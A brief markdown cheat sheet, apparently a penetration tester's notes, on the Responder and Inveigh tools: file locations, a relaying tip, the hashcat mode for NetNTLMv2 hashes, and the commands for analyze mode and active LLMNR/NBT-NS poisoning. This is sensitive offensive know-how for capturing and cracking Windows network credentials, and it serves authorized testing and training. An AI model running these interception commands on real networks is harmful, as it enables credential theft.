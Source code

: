 # Responder and Inveigh

## Responder Data
- Data is stored in /usr/share/responder/logs
- Defautl database is /usr/share/responder/Responder.db (sqlite DB)
- Default configuration file is /usr/share/responder/Responder.conf
- If relaying with nltmx make sure to disable smb in Responder.conf ^^
- Hashcat mode for NetNTLMv2 is 5600

## Responder Usage
```
## Analyze Mode
responder -I eth0 -A 

## Active Intercept
responder -I eth0 -Pwd
```

## Legacy versions of Responder
```
responder -I eth0 -wrf
```